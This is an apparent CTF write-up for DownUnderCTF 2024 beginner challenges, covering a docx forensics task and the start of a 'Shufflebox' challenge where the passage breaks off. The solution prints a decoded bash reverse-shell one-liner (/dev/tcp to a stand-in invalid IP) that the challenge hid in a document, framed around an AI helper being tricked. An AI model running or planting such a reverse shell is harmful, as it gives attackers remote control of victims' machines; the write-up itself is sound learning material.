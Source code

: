 ```yaml
---
title: DownUnderCTF 2024
tags:
- Writeups
date: Jul 07 2024
summary: Challenges from DownUnderCTF
draft: false
---
```

Well, now and then, we come across a big CTF like this. Starting out late, let’s see how it goes.

```bash
Authors: AbuCTF, MrRobot, SHL, MrGhost, PattuSai, Rohmat
```
Okay, but I have to post this LOL.

![p4](./0-5.png)

## **Beginner**

### **TLDR please summarize**

**Description**: 

I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?

**Author**: Nosurf

Given: `EmuWar.Docx`

Straight away, I copy the `docx` file into a `zip` and extract. Going straight to `/word/document.xml` ,

cause that contains the actually content of the `docx` file. Opening in VS Code.

![1](./1.png)

Onto to the pastebin site, we see a `base64` string decoding it, we get the flag.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/begin]
└─$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8yNjEuMjYzLjI2My4yNjcvRFVDVEZ7Y2hhdGdwdF9JX24zM2RfMl8zc2NhcDN9IDA+JjE=" | base64 -d
bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1
```

**Flag**: `DUCTF{chatgpt_I_n33d_2_3scap3}`

### **Shufflebox**

**Description**: 

I've learned that if you shuffle your text, it's elrlay hrda to tlle htaw eht nioiglra nutpi aws.
